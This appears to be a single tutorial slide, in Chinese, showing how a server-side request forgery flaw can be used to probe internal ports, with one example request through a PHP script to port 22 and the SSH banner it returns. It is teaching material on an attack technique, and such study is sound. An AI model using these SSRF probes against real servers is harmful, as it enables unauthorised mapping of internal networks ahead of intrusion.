

# 如何利用SSRF漏洞进行端口探测
URL里包含端口：
http://192.168.1.64/ssrf2.php?url=http://192.168.1.64:22
返回值：
SSH-2.0-OpenSSH_6.6.1 Protocol mismatch